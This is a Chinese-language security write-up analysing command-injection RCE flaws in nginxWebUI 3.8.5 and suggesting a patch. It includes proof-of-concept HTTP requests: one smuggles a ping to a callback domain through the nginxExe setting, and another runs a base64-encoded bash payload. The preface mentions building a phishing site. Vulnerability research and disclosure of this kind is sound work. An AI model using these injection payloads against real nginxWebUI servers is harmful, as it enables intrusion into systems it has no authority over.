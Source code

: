 

# 安服？开发！记一次 nginxWebUI3.8.5 版本的 RCE 分析及修复建议 - 先知社区

安服？开发！记一次 nginxWebUI3.8.5 版本的 RCE 分析及修复建议

- - -

## 前言

临时接到通知说要防个网站用作钓鱼，在一系列的阻碍之下，只好自己手搓一套钓鱼框架，第一时间也就想到了 nginx，于是乎我就想起来前段时间审计过的 nginxWebUI 正好方便拿来使用，UI 操作就是快。但印象里当时即使是最新版的 nginxWebUI 后台仍存在 RCE，因此重新审计回看这套代码，顺便当一回开发，在不影响业务的前提下如何修复漏洞。

## 历史漏洞

### 漏洞分析

其实大概在 3.6.2 版本之后，nginxWebUI 就开始陆续修复`/adminPage/conf/runCmd`接口的 rce，但 RCE 漏洞仍然存在，在 3.6.5 之后针对该接口代码就基本没有什么改动了。这里先看一下作者之前的修复方式。  
`com.cym.controller.adminPage.ConfController#isAvailableCmd`承担了防御命令执行的重大使命  
[![](assets/1708870129-0a9343ba13ba228931a4bb7f1fb5e5b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024130-fe8dcff8-d1b1-1.png)

1.  可控的 cmd 先判断是否符合 switch 中各项条件，若一致则提前返回 true
    
    ```plain
    private boolean isAvailableCmd(String cmd) {
    // 检查命令格式
     switch (cmd) {
         case "net start nginx":
         case "service nginx start":
         case "systemctl start nginx":
         case "net stop nginx":
         case "service nginx stop":
         case "systemctl stop nginx":
         case "taskkill /f /im nginx.exe":
         case "pkill nginx":
             return true;
         default:
             break;
     }
    ```
    
2.  前端传入 cmd 是否与 nginx 相关命令一致
    
    ```plain
    if (cmd.equals(settingService.get("nginxExe") + " -s stop" + dir)) {
     return true;
    }
    if (cmd.equals(settingService.get("nginxExe") + " -c " + settingService.get("nginxPath") + dir)) {
     return true;
    }
    ```
    
    这种方式看似将 cmd 变为不可控变量交给`RuntimeUtil.exec`函数执行，实际上 nginxExe 在系统中也是用户可控的，其作用是用户设定 nginx 路径等相关配置

[![](assets/1708870129-a36f38d228688aa0c64bcd8f30c4c792.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024307-3826e934-d1b2-1.png)

[![](assets/1708870129-43ff5f3747460b4c93c75d58839672dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024335-48ec4a52-d1b2-1.png)  
`ToolUtils.handlePath`会过滤这些参数中的特殊字符

[![](assets/1708870129-88992d9cb77fb56bf73c4825d7c2b0f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024353-5388df16-d1b2-1.png)  
所以攻击者只需要将 nginxExe 与 cmd 设定为特定 payload，使上文`cmd.equals`成立即可。不过即使这样也无法避免的会将`" -c " + settingService.get("nginxPath") + dir`、`" -s stop" + dir`带入到`RuntimeUtil.exec`中执行，此时 linux 中的分隔符也已被过滤，诸如反弹 shell 之类的大部分命令都无法执行，因此这里对漏洞的修复也算是收敛了攻击面。笔者这里能想到的是只能执行诸如 ping 这种含有-c 或者其他相关命令了，如有错误欢迎指正。

### 漏洞复现

此处我想满足的是`com.cym.controller.adminPage.ConfController#isAvailableCmd`的这段条件

```plain
if (cmd.equals(settingService.get("nginxExe") + " -c " + settingService.get("nginxPath") + dir)) {
    return true;
}
```

当传入的 nginxExe、nginxPath 传入如下内容后，cmd 则为`ping${IFS}jitmszgnmy.dgrh3.cn -c 1`

```plain
POST http://localhost:8085/adminPage/conf/saveCmd HTTP/1.1
Host: localhost:8085

nginxExe=ping${IFS}jitmszgnmy.dgrh3.cn&nginxPath=1
```

[![](assets/1708870129-4c0a36e76a2e030bb41e21c1f5892c11.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024629-b0d948a4-d1b2-1.png)  
成功调用 cmd 执行 ping 命令

[![](assets/1708870129-1555cf20930d9ae54f4ef592b0e8c62f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024640-b7425906-d1b2-1.png)

## 迟迟未修的 RCE 漏洞

上文中分析到 nginxExe 可控，代码中还有多处对该参数执行 RCE 等相关操作。例如：`com.cym.controller.adminPage.ConfController#check`，跟上文不同，该处 RCE 可执行任意代码。

### 漏洞分析

nginxExe 可控，当其为空时，则会从`settingService.get`中获取，且被`ToolUtils.handlePath`过滤处理

[![](assets/1708870129-c339979ac539b1b520bed0f67c7eab35.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024721-cfb122d8-d1b2-1.png)  
假如不为空，则直接被拼接至 cmd 中，交由`RuntimeUtil.execForStr`执行

[![](assets/1708870129-2382313a3cb96a8eb6b51f3a0ed61917.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024734-d7ba986a-d1b2-1.png)  
然而就算到这一步又会碰到一个老问题：命令无法执行

[![](assets/1708870129-69f721edc4d4826e17a8edff55c6957e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024745-ddd2003a-d1b2-1.png)  
但 shell 中是可以正常执行的

[![](assets/1708870129-f4c1727507cd913084a2e031431990ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024752-e2719790-d1b2-1.png)  
这里涉及到的是老生常谈的知识点：java 命令执行，这里就不再赘述，简单分析下此处的原因：  
`cn.hutool.core.util.RuntimeUtil#cmdSplit`会以空格为分隔符将 cmd 分割

[![](assets/1708870129-7cb123c01963a24f198979dfe8aa59be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024808-ebd26756-d1b2-1.png)  
cmd 数组接着会传递至`java.lang.ProcessBuilder#start`函数，在 该方法中将 cmdarry 第一个参数 `cmdarry[0]` 当作要执行的命令，把后面的 `cmdarry[1:]`作为命令执行的参数转换成 byte 数组 argBlock，此时执行语义已经被更改，正常在 shell 中能够执行的语句也就无法执行了。而在 bash 和 base64 的帮助下可以打通这里的 RCE。  
另外，该接口传入的 json 参数需要符合特定 json 类型要求才能成功触发 RCE

[![](assets/1708870129-a5eeb29bb987c0fb4eec1180bfc936d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024830-f8e6b866-d1b2-1.png)

### 漏洞复现

功能点在检验文件处，nginx 执行命令则为可控的 nginxExe 参数

[![](assets/1708870129-769ce39b654ff3e1e3342fdf0aed47f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024844-0160b1f4-d1b3-1.png)

```plain
POST http://localhost:8085/adminPage/conf/check HTTP/1.1
Host: localhost:8085

nginxPath=&nginxExe=bash+-c+{echo,b3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcA==}|{base64,-d}|{bash,-i}&nginxDir=&json={"nginxPath":"","nginxContent":"","subContent":[],"subName":[]}
```

[![](assets/1708870129-670199b15e9b8623ceb38648e41ea3bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024901-0b20dd40-d1b3-1.png)

## 未知攻，焉知防

该接口的 RCE 至今未修，可能作者也是比较无奈不知该如何修正，因为 nginxExe 为用户设定 nginx 文件路径，从功能角度来看该接口是用来执行 nginx 命令来校验 conf 文件，传入参数可控 + 必不可少的需要直接执行命令，除了黑名单似乎没有什么好办法了。  
而我这里想到的修复方式是：

1.  将全局 nginxExe 都通过`ToolUtils.handlePath`处理
2.  验证用户传入参数是否为文件  
    既然 nginxExe 可控，且含义为 nginx 路径，因此直接可以用 isFile 函数来判断用户传入参数是否为文件
3.  验证文件是否为 nginx  
    这里我的方案是执行 nginx -v 操作，通版本号的输出来判断是否为 nginx。原本想的是计算 hash 来进行比对，但 nginx 毕竟是编译使用的，比对 hash 并不现实。如果有师傅有其他的 good idea 欢迎来提！  
    添加代码如下：
    
    ```plain
    try{
     //既然 nginxExe 可控，且含义为 nginx 路径，因此直接可以用 isFile 函数来判断用户传入参数是否为文件
     File file = new File(nginxExe);
     boolean isFile = file.isFile();
     if (!isFile){
         return renderSuccess("not nginx filepath");
     }else {
         //如果是文件，执行-v 操作，来判断是否为 nginx
         rs = RuntimeUtil.execForStr(nginxExe + " -v");
         if (!rs.contains("nginx version")){
             return renderSuccess("not nginx");
         }
     }
    }catch (Exception e){
     logger.error(e.getMessage(), e);
     rs = e.getMessage().replace("\n", "<br>");
    }
    ```
    
    实际效果如下：  
    正常进行文件校验：

[![](assets/1708870129-570ba2fab5de3e74fe333e08d7864a54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223025037-4482488a-d1b3-1.png)  
用户输入恶意代码：

[![](assets/1708870129-323c84a244b8aefca496d6bd27f6d635.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223025045-49a0889a-d1b3-1.png)  
执行其他非 nginx 文件，实际这里也是通过调用 RuntimeUtill 执行来验证是否为 nginx，假如服务器已经被上传了马子，通过 nginxwebui 来触发执行马子，那谁也拦不住哈哈，只能说尽可能的收缩攻击利用面，增大漏洞利用难度  
[![](assets/1708870129-725bfbbea6063236f6e854cf77978716.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223025723-36d5963c-d1b4-1.png)

## 总结

nginxWebUI 的 rce 虽然是个老洞，但历时那么久仍未完全修复也是比较令人遗憾的。开发的目的毫无疑问是设计一套方便开发、运维人员管理 nginx 的 ui 产品。一键启动固然方便，但从安全角度来看，在配置文件校验、文件启动功能上为了方便用户而造成的任意代码执行，是完全可以避免的。还是那句话，永远不能相信前端用户的输入，假如这套系统做的绝一点，直接添加一键安装编译 nginx 的功能（前端版本号可控 - 下载对应文件 - 解压编译），这样也就一劳永逸了。  
至此也算是收敛了 RCE 利用面，开发没打的补丁，臭安服帮他打～ 这样系统开在公网也心安了一丝丝。
